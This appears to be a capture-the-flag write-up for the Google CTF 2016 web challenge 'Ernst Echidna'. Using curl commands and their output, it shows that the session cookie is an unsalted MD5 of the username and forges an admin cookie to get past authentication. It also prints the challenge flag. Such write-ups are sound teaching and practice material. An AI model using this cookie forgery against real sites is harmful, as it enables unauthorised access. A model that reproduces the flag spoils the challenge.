 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/google-ctf-2016-ernst-echidna/
  - /blog/2016/05/02/google-ctf-2016-ernst-echidna/
date: 2016-05-02T02:33:12+09:00
tags: [ "ctf", "web", "writeup", "google-ctf" ]
"target_url": [ "https://capturetheflag.withgoogle.com/challenges/" ]
---
```


# Google Capture The Flag 2016: Ernst Echidna

Follow the hint in the problem statement, you can know there is a directory `/admin`. And it seems that check the user by the cookie.

``` sh
$ curl --insecure https://ernst-echidna.ctfcompetition.com/robots.txt
Disallow: /admin
```

When you do register, a cookie is baked.

``` sh
$ curl --insecure -D- https://ernst-echidna.ctfcompetition.com/register -F username=hoge -F password=fuga
HTTP/1.1 100 Continue

HTTP/1.1 302 Found
Location: /welcome
Content-Type: text/html; charset=utf-8
Date: Sun, 01 May 2016 06:27:54 GMT
Server: Google Frontend
Content-Length: 0
Set-Cookie: md5-hash=ea703e7aa1efda0064eaa507d9e8ab7e; Path=/
Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
```

And it is matchs with the username.

``` sh
$ echo -n hoge | md5sum
ea703e7aa1efda0064eaa507d9e8ab7e  -
```

So you should md5sum the string `admin` and throw it.

``` sh
$ echo -n admin | md5sum
21232f297a57a5a743894a0e4a801fc3  -

$ curl --insecure -D- https://ernst-echidna.ctfcompetition.com/admin --cookie md5-hash=21232f297a57a5a743894a0e4a801fc3
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
Date: Sun, 01 May 2016 06:28:45 GMT
Server: Google Frontend
Cache-Control: private
Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
Accept-Ranges: none
Transfer-Encoding: chunked

<html>
  <head>
   <meta charset="utf-8">
   <title>gloomy-scorpion</title>
   <link rel="stylesheet" href="/static/bootstrap.min.css" media="screen">
  </head>
  <body>
    <div class="container">
      <h1>The authentication server says..</h1>
      <p>Congratulations, your token is &#39;CTF{renaming-a-bunch-of-levels-sure-is-annoying}&#39;</p>
    </div>
  </body>
</html>
```
